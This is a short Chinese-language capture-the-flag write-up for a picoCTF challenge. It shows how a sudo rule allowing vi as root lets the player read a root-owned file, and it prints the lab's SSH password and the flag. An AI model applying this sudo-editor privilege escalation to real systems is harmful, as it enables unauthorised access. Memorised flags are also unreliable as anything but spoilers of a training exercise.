 # Description
```text
Can you read files in the root file?
Additional details will be available after launching your challenge instance.
```
start instance
```text
Can you read files in the root file? The system admin has provisioned an account for you on the main server: ssh -p 60683 picoplayer@saturn.picoctf.net Password: yX-YQgX-vS Can you login and read the root file?
```

# 解題
先使用 `ssh` 連線
```bash
ssh -p 60683 picoplayer@saturn.picoctf.net
```
接著使用 `sudo -l` 查看目前這個 user 有權執行的命令
```bash
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
發現可以對 `challenge` 使用 `/usr/bin/vi`，先 `cd` 前往根目錄，並 `ls` 列出所有檔案
```bash
picoplayer@challenge:~$ cd /
picoplayer@challenge:/$ ls 
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
```
發現 `challenge`，執行
```bash
sudo /usr/bin/vi challenge/
```
看到以下內容
```text
" ============================================================================
" Netrw Directory Listing                                        (netrw v165)
"   /challenge
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
../                                                                             
./
metadata.json
```
發現其下有 `metadata.json` ，再次執行
```bash
sudo /usr/bin/vi challenge/metadata.json
```
得到 flag
```text
{"flag": "picoCTF{uS1ng_v1m_3dit0r_55878b51}", "username": "picoplayer", "password": "yX-YQgX-vS"}

```




<!-- flag -->
所以本題 FLAG 
```text
picoCTF{uS1ng_v1m_3dit0r_55878b51}
```
